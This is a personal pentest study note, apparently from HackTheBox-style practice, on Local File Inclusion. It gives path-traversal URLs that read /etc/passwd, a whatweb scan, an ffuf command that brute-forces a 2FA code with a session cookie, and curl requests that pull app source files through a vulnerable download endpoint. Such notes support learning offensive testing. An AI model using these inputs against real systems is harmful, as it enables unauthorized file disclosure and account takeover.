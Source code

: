 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[LFI]]  
___

## Description:  
### Local File Inclusion

`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd

if that doesn't work try

`http://192.168.1.70/index.php?system=../../../../../../../../../../../../../../../../../etc/passwd.html

### whatweb can identify web severs and get common directories
https://github.com/urbanadventurer/WhatWeb
```

./whatweb http://only4you.htb/

Lightbox, Script, Title[Only4you], nginx[1.18.0]
```

### Common webserver directories

- `C:\inetpub\wwwroot`
- `/var/www/ (before Ubuntu 14.04)` 
- `/var/www/html/ (Ubuntu 14.04 and later)`
- ``/usr/share/nginx/html (nginx)`` 
- ``/usr/share/nginx``

### Fuff Automation

Once an lfi is discovered, fluff can be used for automation. Look for different extensions in the web root directory like .py, .php, etc.
```
ffuf -w number.txt -X POST -d "password=FUZZ" -b "TCSESSIONID=74BCFD74A212BEC7DF8533FAD3E6FA50" -request ../request.txt -u https://teamcity-dev.coder.htb/2fa.html -fr "Incorrect" -c
```

You can also use gobuster with the -x flag to enumerate different file extensions.

### Look for import statements in source code

```
root@kali:~# curl -X POST http://beta.only4you.htb/download -d "image=/var/www/only4you.htb/app.py"
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid
```

"from form import sendmessage" means there is a file called form.py
```
root@kali:~# curl -X POST http://beta.only4you.htb/download -d  image=/var/www/only4you.htb/form.py
```


___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (01:32 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
